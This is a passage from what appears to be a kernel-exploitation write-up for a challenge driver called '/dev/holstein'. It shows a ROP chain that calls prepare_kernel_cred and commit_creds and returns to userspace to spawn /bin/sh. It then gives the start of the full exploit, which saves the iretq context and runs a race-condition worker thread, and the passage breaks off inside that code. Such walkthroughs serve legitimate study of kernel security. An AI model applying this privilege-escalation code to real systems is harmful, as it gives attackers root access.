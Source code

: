 The Rop looks something like this:
```c
    unsigned long pe_and_ret_to_userspace_rop[] = {pop_rdi_address, 0, prepare_kernel_creds_f,
                                                   xchg_rdi_rax_address,
                                                   commit_creds_f, swapgs_restore_regs_and_return_to_usermode_address, rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500 + 0x400, rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rip, cs, flags, rsp, ss};
```
`rsp + 0x500` is just a writeable place that is being loaded to the registers in `swapgs_restore_regs_and_return_to_usermode`.

## Putting it all together
Here's the final code:
```c

#include <stdio.h>
#include <fcntl.h>
#include <cstdlib>
#include <unistd.h>
#include <sys/mman.h>
#include <thread>
#include <semaphore.h>

void execve_bin_bash() {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

unsigned long cs;
unsigned long ss;
unsigned long rip = (unsigned long) &execve_bin_bash;
unsigned long flags;
unsigned long rsp;

void setup_iretq_context() {
    asm volatile("mov %%cs, %0" : "=m" (cs));
    asm volatile("mov %%ss, %0" : "=m" (ss));
    asm volatile("pushfq; pop %0" : "=m" (flags));
    asm volatile("mov %%rsp, %0" : "=m" (rsp));
};

sem_t mutex;

void *worker_thread() {
    while (true) {
        int fd;
        if (!(fd = open("/dev/holstein", O_RDWR))) {
            printf("open worker_thread failed!");
            exit(1);

        }
        close(fd);
        sem_wait(&mutex);
    }
}
```